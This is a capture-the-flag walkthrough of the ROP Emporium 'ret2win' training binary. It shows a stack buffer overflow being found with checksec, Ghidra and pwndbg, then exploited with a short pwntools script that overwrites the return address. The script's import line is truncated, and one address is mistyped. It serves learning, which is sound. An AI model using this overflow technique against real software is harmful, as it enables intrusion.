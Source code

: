 # Challenge 1 - ret2win

## Description

ret2win means "return here to win" and it's recommended you start with this challenge.

Let's start by inspecting the binary:
```
mfumega@pwn-boy:/pwn-boy$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ret2win
[*] '/pwn-boy/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

We can see here some information on the protections the binary has enabled, such as Partial RELRO, and NX enabled. 

Let's run the binary.
```
mfumega@pwn-boy:/pwn-boy$ ./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAA
Thank you!

Exiting
``` 

The challenge itself its explaining what will happen. Is trying to fit 56 bytes of our input, on a 32 bytes variable. Now let's see whats going on with GDB, and try to understand better this behaviour. 

There is a main function, that calls to another one called `pwnme()`. 

If we open this binary with Ghidra we can see what this `pwnme` function is doing more clearly, even though its not totally necesary. Let's take a look at the `main` and `pwnme` functions, as well as the "winning" function `ret2win`:

```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}

void pwnme(void)

{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

From this code, we know that the `pwnme` function relies on `read()` to capture our input. It will get 0x38 bytes, and store it into a 32 bytes variable, as the text shown at the beginning. 

This being said, let's now jump to GDB! 

I've placed a breakpoint right after the call to `read`: 
```
pwndbg> b *pwnme +97
Breakpoint 1 at 0x400749
pwndbg> r
```

When it asked for my input, I put: "AAAAAAAA"

After hitting the breakpoint, we can inspect the stack and see some useful information: 

```
 ► 0         0x400749 pwnme+97
   1         0x4006d7 main+64
   2   0x7ffff7da8d90 __libc_start_call_main+128
   3   0x7ffff7da8e40 __libc_start_main+128
   4         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/25gx $rsp
0x7fffffffdd00: 0x4141414141414141      0x000000000000000a
0x7fffffffdd10: 0x0000000000000000      0x0000000000000000
0x7fffffffdd20: 0x00007fffffffdd30      0x00000000004006d7
0x7fffffffdd30: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd40: 0x0000000000000000      0x0000000000400697
0x7fffffffdd50: 0x00000001ffffde30      0x00007fffffffde48
0x7fffffffdd60: 0x0000000000000000      0xf6a712e7147c73f9
0x7fffffffdd70: 0x00007fffffffde48      0x0000000000400697
0x7fffffffdd80: 0x0000000000000000      0x00007ffff7ffd040
0x7fffffffdd90: 0x0958ed18aefe73f9      0x0958fd520ef673f9
0x7fffffffdda0: 0x00007fff00000000      0x0000000000000000
0x7fffffffddb0: 0x0000000000000000      0x00007fffffffde48
0x7fffffffddc0: 0x0000000000000000
pwndbg>
``` 

From this capture from GDB we can see the following info: 
- We are at the pwnme+97 (0x400749)
- When this function ends, the program will continue at main+64 (0x4006d7)
- Our input starts at 0x7fffffffdd00 (we can see the 8 "A" (41 in hex)
- At address 0x7fffffffdd28 is stored the return address 0x40067

```
pwndbg> x/x 0x7fffffffdd28
0x7fffffffdd28: 0x00000000004006d7
pwndbg>
```

So, if we substract the start of our input, to the target memory address, we'll know how many bytes we need to use as padding before overwrite the return value (0x7fffffffdd28 - 0x7fffffffdd00). This will give 40 as a result, so if we put 40 bytes, the next 8 bytes will be the new return address. 
If we overwrite the actual address with the `ret2win` one, we should get the flag. 

Using pwntools: 
```
m pwn import *

binary_path = '/pwn-boy/ret2win'
p = process(binary_path)

offset = 40
ret2win_addr = 0x400756


payload = b'A' * offset
payload += p64(ret2win_addr)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

If we do it like this it will show the success message, but not the flag. It's a padding issue. Just add 1 to the ret2win address `ret2win_addr = 0x400756 + 1` and it will do the trick. 

We got the flag: 
```
> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``` 

That's it for this challenge! 
